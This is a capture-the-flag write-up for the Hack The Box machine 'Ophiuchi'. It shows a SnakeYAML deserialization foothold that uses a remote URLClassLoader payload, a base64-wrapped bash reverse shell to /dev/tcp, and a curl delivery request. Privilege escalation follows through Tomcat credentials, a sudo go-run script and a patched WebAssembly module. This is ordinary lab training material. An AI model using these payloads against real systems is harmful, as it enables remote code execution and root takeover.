



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.227 ophiuchi.htb

__nmap scan:__
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Port 8080

Running Apache Tomcat 9.0.38 server



__Gobuster scan:__
```bash
gobuster dir -u http://ophiuchi.htb:8080/ -w ~/git-tools/SecLists/Discovery/Web-Content/raft-small-directories-lowercase.txt
... [snip] ...
/test                 (Status: 302) [Size: 0] [--> /test/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/yaml                 (Status: 302) [Size: 0] [--> /yaml/]
```

input any data give a security error


### yaml

YAML is a human-readable data-serialization language.

In ymal tags are the way of telling the YAML parser which data type the following value is going to be in. From yaml [refcard](https://yaml.org/refcard.html)
```yaml
none   # Unspecified tag (automatically resolved by application).
!      # Non-specific tag (by default, "!!map"/"!!seq"/"!!str").
!foo   # Primary (by convention, means a local "!foo" tag).
!!foo  # Secondary (by convention, means "tag:yaml.org,2002:foo").
!h!foo # Requires "%TAG !h! <prefix>" (and then means "<prefix>foo").
!<foo> # Verbatim tag (always means "foo").
```

these tags are use to specify the data in one of the "standard" formats like a string or an array with `!` and specific class object `!!`. *this is what i understand*

Back to web application, if user parse invalid tag `!foo`, rather than giving security error it gives Internal Server error which verifies the yaml library.


# Foothold:SnakeYAML_Deserilization_exploit

__SnakeYAML__ is a YAML-parsing JAVA library with a high-level API for serialization and deserialization of YAML documents. The entry point for SnakeYAML is the Yaml class, similar to how the ObjectMapper class is the entry point in Jackson.

## SnakeYAML Marshaling Vulnerability

* [SnakeYaml Deserilization exploit blog](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)

`snakeYAML` is a marshaling library in JAVA.

There is a slight [diffrence between Marshaling and serialization](https://stackoverflow.com/questions/770474/what-is-the-difference-between-serialization-and-marshaling)

* Marshaling and serialization are loosely synonymous in the context of remote procedure call, but semantically different as a matter of intent. In particular, marshaling is about getting parameters from here to there, while serialization is about copying structured data to or from a primitive form such as a byte stream.

Here is the full paper of java Unmarshaller exploit [marshalsec.pdf](https://www.github.com/mbechler/marshalsec/blob/master/marshalsec.pdf?raw=true)

SnakeYAML only allows using public constructors andpublic properties. It does not require corresponding gettermethods.

It has a special feature which allows calling arbitrary constructors with attacker-supplied data. This makes exploiting `ScriptEngine` possible

From the Oracle/OpenJDK standard library. Requires the ability to call arbitrary constructors with provided data. Involved types do not implement `java.io.Serializable`.

1. Construct a `java.net.URLobject` pointing to a remote class path.
2. Construct a `java.net.URLClassLoader` with that URL.
3. Construct a `javax.script.ScriptEngineManager` with that `ClassLoader`.
4. __The constructor call invokes the `ServiceLoader` mechanism for `javax.script.ScriptEngine` Factory on the remote class path, ultimately instantiating an arbitrary remote class implementing that interface.__

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.15.71:8000/"]
  ]]
]
```


## java ScriptEngineManager

* [java runtime executable tool](http://jackson-t.ca/runtime-exec-payloads.html)
* [ScriptEngine interface](https://docs.oracle.com/javase/7/docs/api/javax/script/ScriptEngine.html)
* [ScriptEngineManager payload](https://github.com/artsploit/yaml-payload)

__Reverse Shell__
```bash
❯ rev_shell="bash -c 'bash -i >& /dev/tcp/10.10.15.71/4141 0>&1'"
jre="bash -c {echo,$(echo -n $rev_shell | base64)}|{base64,-d}|{bash,-i}"
echo $jre
bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS43MS80MTQxIDA+JjEn}|{base64,-d}|{bash,-i}
```

__setup__
```bash
❯ tree
.
├── Exploit.class
├── Exploit.java
└── META-INF
    └── services
        └── javax.script.ScriptEngineFactory
```

`javax.script.ScriptEngineFactory` invokes `Exploit.class` compiled from [`Exploit.java`](https://github.com/artsploit/yaml-payload/blob/master/src/artsploit/AwesomeScriptEngineFactory.java) which use ScriptEngine interface methods to execute arbitrary commands.

before compiling `Exploit.java` put reverse shell in the `Exploit` function and than compile
```bash
javac Exploit.java
```


and `javax.script.ScriptEngineFactory` contains compiled class path.
```bash
❯ cat META-INF/services/javax.script.ScriptEngineFactory
Exploit
```

__Start web server and execute SnakeYAML Marshaling payload__
```bash
curl -s -X POST \
  --data-binary $'data=%21%21javax.script.ScriptEngineManager+%5B%0D%0A++%21%21java.net.URLClassLoader+%5B%5B%0D%0A++++%21%21java.net.URL+%5B%22http%3A%2F%2F10.10.15.71%3A8000%2F%22%5D%0D%0A++%5D%5D%0D%0A%5D' \
  $'http://10.10.10.227:8080/Servlet'
```


# Privesc:wasm_reversing

* Tomcat manage creds store in `conf/tomcat-users.xml` and in this box
```bash
(remote) tomcat@ophiuchi:/$ find / -type f -name tomcat-users.xml 2>/dev/null
/opt/tomcat/conf/tomcat-users.xml
```


get user "admin" password.

su to user "admin" and found that user have sudo right to run `/opt/wasm-functions/index.go` script as any user on the box with NOPASSWD.
```bash
(remote) tomcat@ophiuchi:/$ su admin
Password: 
admin@ophiuchi:/$ sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

__[wasmer-go](https://github.com/wasmerio/wasmer-go)__ is A complete and mature WebAssembly runtime for Go.

Reviewing `index.go` First thing notice is that script intracting with two exteranl file but not using these file absolute path.


rather than binaries if script not use absolute path when invoke any file from specific directory it is error out and not use env varibales to find the file.

If user execute `index.go` from outside `/opt/wasm-functions` directory it error-out.


this can be exploited by coping `main.wasm` in other directory and create `deploy.sh` with reverse shell
```bash
cp /opt/wasm-functions/main.wasm .
echo -e '#!/bin/bash\n\nid' > deploy.sh
sudo -u root /usr/bin/go run /opt/wasm-functions/index.go
```



executed successfully but there is something else that stoping script from executing `deploy.sh`.

__Checking main function__
```go
func main() {
  // Reads the WebAssembly module as bytes.
	bytes, _ := wasm.ReadBytes("main.wasm")

  // Instantiates the WebAssembly module.
	instance, _ := wasm.NewInstance(bytes)
	defer instance.Close()

  // Gets the `info` exported function from the WebAssembly instance.
	init := instance.Exports["info"]

  // Calls that exported function.
	result,_ := init()

  //store result value as string in variable "f"
	f := result.String()
	if (f != "1") {
		fmt.Println("Not ready to deploy")
	} else {
		fmt.Println("Ready to deploy")
		out, err := exec.Command("/bin/sh", "deploy.sh").Output()
		if err != nil {
			log.Fatal(err)
		}
		fmt.Println(string(out))
	}
}
```

That means that function "`info`" in `main.wasm` binary have some value that is not `1` thats why script exit with "Not ready to deploy".

## wasm reversing

There is a tool [wabt](https://github.com/webassembly/wabt) on github which can help to reverse `main.wasm` binary so we can read `main.wasm` source code.

in wabt suite there is tool `wasm2wat` which translate from the binary format back to the text format.
```bash
wasm2wat main.wasm -o main.wat
```

and can see that info function have constant value `0` and script checking if value if `1`.


modify reversed main.wasm and change info function value to `1` and use `wat2wasm` which translate from WebAssembly text format to the WebAssembly binary format to recompile it.


```bash
wat2wasm main.wat -o main.wasm
```

and now run again with modified `main.wasm`.


and executed successfully

